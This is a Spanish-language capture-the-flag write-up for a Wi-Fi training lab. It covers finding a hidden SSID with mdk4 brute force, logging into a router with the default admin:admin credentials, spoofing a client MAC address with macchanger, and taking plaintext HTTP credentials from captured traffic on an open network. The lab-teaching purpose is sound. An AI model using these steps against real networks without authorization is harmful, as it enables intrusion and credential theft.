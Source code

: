 ```yaml
---
layout: post
title: "WifiChallengeLab - Wi-Fi - OPN (Redes Públicas Abiertas)"
categories: wifi
---
```


> Red inalámbrica que no tiene cifrado ni contraseña para conectarse.

## WiFiChallenge Lab - Challenge 5 - ¿Cuál es la FLAG en el router del AP oculto tras unas credenciales por defecto?

- Primero vamos a identificar la red Oculta.

```bash
root@WiFiChallengeLab:/home/user# airodump-ng wlan0mon --band abg
```

- Si observamos vemos que la red es oculta.

<p align="center">
<img src="https://i.imgur.com/EG761Rv.png">
</p>

- Vamos a ver como se llama haciendo un ataque de fuerza bruta usando **MDK4** <https://www.kali.org/tools/mdk4/> es una herramienta de auditoría y pruebas de redes inalámbricas. Es una evolución de MDK3 y está diseñada para atacar redes Wi-Fi de diversas maneras, explotando vulnerabilidades y debilidades en la seguridad de estas redes. MDK4 puede realizar una amplia variedad de ataques, incluidos ataques de denegación de servicio (DoS), ataques de desautenticación, ataques de reinyección de paquetes y muchos otros.

```bash
root@WiFiChallengeLab:/home/user# iwconfig wlan0mon channel 11
```

- Una vez operando en la antena en el canal donde esta el AP oculto vamos a proceder a hacer el ataque de fuerza bruta con el diccionario que tenemos en el laboratorio.

```bash
root@WiFiChallengeLab:/home/user# mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt 
Waiting for a beacon frame from target to get its SSID length.
SSID length is 9
Trying SSID: wifi-love                                           
Packets sent:      1 - Speed:    1 packets/sec
Probe Response from target AP with SSID wifi-*****                
Job's done, have a nice day :)
```

- Como es una red abierta y ya tenemos el nombre simplemente podemos conectarnos y obtener IP.

```bash
root@WiFiChallengeLab:/home/user# cat zi.conf 
network={
    ssid="wifi-****"
    key_mgmt=NONE
    scan_ssid=1
}
```

- Ahora nos conectamos.

```bash
root@WiFiChallengeLab:/home/user# wpa_supplicant -iwlan2 -c zi.conf 
Successfully initialized wpa_supplicant
wlan2: SME: Trying to authenticate with f0:9f:c2:6a:88:26 (SSID='wifi-****' freq=2462 MHz)
wlan2: Trying to associate with f0:9f:c2:6a:88:26 (SSID='wifi-****' freq=2462 MHz)
wlan2: Associated with f0:9f:c2:6a:88:26
wlan2: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:6a:88:26 completed [id=0 id_str=]
```

- Ahora obtenemos IP.

```bash
root@WiFiChallengeLab:/home/user# dhclient wlan2 -v
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan2/02:00:00:00:02:00
Sending on   LPF/wlan2/02:00:00:00:02:00
Sending on   Socket/fallback
DHCPDISCOVER on wlan2 to 255.255.255.255 port 67 interval 3 (xid=0x63f8fc4b)
DHCPDISCOVER on wlan2 to 255.255.255.255 port 67 interval 6 (xid=0x63f8fc4b)
DHCPDISCOVER on wlan2 to 255.255.255.255 port 67 interval 15 (xid=0x63f8fc4b)
DHCPOFFER of 192.168.16.84 from 192.168.16.1
DHCPREQUEST for 192.168.16.84 on wlan2 to 255.255.255.255 port 67 (xid=0x4bfcf863)
DHCPACK of 192.168.16.84 from 192.168.16.1 (xid=0x63f8fc4b)
bound to 192.168.16.84 -- renewal in 41788 seconds.
```

- Ahora nos vamos al navegador para ver el sitio web.

<p align="center">
<img src="https://i.imgur.com/eh99OYj.png">
</p>

- Si recordamos nos decian que las credenciales son por defecto si intentamos con admin:admin que es lo mas comun vemos que nos deja entrar y obtenemos la flag del reto.

<p align="center">
<img src="https://i.imgur.com/b93ISXY.png">
</p>

## WiFiChallenge Lab - Challenge 6 - ¿Cuál es la FLAG en el router AP de la red wifi-guest?

- Tenemos cliente conectados al AP.

```bash
root@WiFiChallengeLab:/home/user# airodump-ng wlan0mon --band abg -c6 -w capturaopn
```

<p align="center">
<img src="https://i.imgur.com/oRE5hb7.png">
</p>

- Al ser una red abierta podemos suplantar la MAC de un cliente y conectarnos.

```bash
root@WiFiChallengeLab:/home/user# sudo systemctl stop NetworkManager
root@WiFiChallengeLab:/home/user# ip link set wlan2 down
root@WiFiChallengeLab:/home/user# macchanger -m B0:72:BF:44:B0:49 wlan2
Current MAC:   b0:72:bf:44:b0:49 (unknown)
Permanent MAC: 02:00:00:00:02:00 (unknown)
New MAC:       b0:72:bf:44:b0:49 (unknown)
It's the same MAC!!
```

- Ahora creamos el archivo de configuración.

```bash
root@WiFiChallengeLab:/home/user# cat zi.conf 
network={
    ssid="wifi-guest"
    key_mgmt=NONE
    scan_ssid=1
}
```

- Ahora nos conectamos.

```bash
root@WiFiChallengeLab:/home/user# wpa_supplicant -iwlan2 -c zi.conf 
Successfully initialized wpa_supplicant
wlan2: SME: Trying to authenticate with f0:9f:c2:71:22:10 (SSID='wifi-guest' freq=2437 MHz)
wlan2: Trying to associate with f0:9f:c2:71:22:10 (SSID='wifi-guest' freq=2437 MHz)
wlan2: Associated with f0:9f:c2:71:22:10
wlan2: CTRL-EVENT-CONNECTED - Connection to f0:9f:c2:71:22:10 completed [id=0 id_str=]
wlan2: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
```

- Ahora nos asignamos IP.

```bash
root@WiFiChallengeLab:/home/user# dhclient wlan2 -v
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan2/b0:72:bf:44:b0:49
Sending on   LPF/wlan2/b0:72:bf:44:b0:49
Sending on   Socket/fallback
DHCPDISCOVER on wlan2 to 255.255.255.255 port 67 interval 3 (xid=0xacf3240)
DHCPDISCOVER on wlan2 to 255.255.255.255 port 67 interval 7 (xid=0xacf3240)
DHCPOFFER of 192.168.10.14 from 192.168.10.1
DHCPREQUEST for 192.168.10.14 on wlan2 to 255.255.255.255 port 67 (xid=0x4032cf0a)
DHCPACK of 192.168.10.14 from 192.168.10.1 (xid=0xacf3240)
bound to 192.168.10.14 -- renewal in 38293 seconds.
```

- Pero vemos que es un panel de autenticación y no tenemos credenciales.

<p align="center">
<img src="https://i.imgur.com/7PuOkhl.png">
</p>

- Como no tenemos credenciales pero estamos ante una red publica vamos a examinar nuestra captura .cap que exportamos mientras escaneamos para ver si viajo alguna credencial cuando estabamos monitoreando.

- Vemos una credencial si filtramos por trafico **http**.

<p align="center">
<img src="https://i.imgur.com/mSZByth.png">
</p>

- Vemos que funcionan y vemos la flag.

<p align="center">
<img src="https://i.imgur.com/xvlfoeU.png">
</p>

> Las redes OPN no cifran el tráfico entre el dispositivo del usuario y el punto de acceso. Esto permite a los atacantes espiar el tráfico de la red para capturar datos no cifrados, como nombres de usuario, contraseñas y actividad de navegación.
